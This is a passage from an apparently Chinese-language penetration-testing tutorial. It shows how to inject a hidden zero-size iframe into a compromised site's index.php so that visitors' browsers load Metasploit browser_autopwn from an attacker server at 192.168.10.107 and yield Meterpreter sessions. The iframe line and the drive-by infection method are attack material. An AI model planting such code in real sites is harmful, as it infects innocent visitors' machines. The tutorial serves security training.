 我们有一个示例网站，存在一个允许我们上传基于 PHP 的第三方 Web shell 的 Web 应用程序漏洞。要执行攻击，我们需要将以下行添加到`index.php`页面，或者我们选择的任何其他页面：

```
<iframe src="img/" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe> 
```

上述代码行将在受害者访问网站时在 iFrame 中加载恶意的浏览器 autopwn。由于这段代码在一个`iframe`标签中，它将自动从攻击者的系统中包含浏览器 autopwn。我们需要保存这个文件并允许访问者查看网站并浏览它。

一旦受害者浏览到被感染的网站，浏览器 autopwn 将自动在他们的浏览器上运行；但是，请确保`browser_autopwn`模块正在运行。如果没有，您可以使用以下命令：

![](img/d0a36848-5ab7-4e7c-a6a8-1685ca963f2d.png)

如果一切顺利，我们将能够在目标系统上运行 Meterpreter。整个想法是利用目标网站来诱使尽可能多的受害者，并获取对其系统的访问权限。这种方法在进行白盒测试时非常方便，其中内部 Web 服务器的用户是目标。让我们看看当受害者浏览到恶意网站时会发生什么：

![](img/871b6a25-7d7c-4dcf-accb-858c3528ace9.png)

我们可以看到对 IP `192.168.10.107`发起了调用，这是我们的浏览器 autopwn 服务器。让我们从攻击者的角度来看一下：
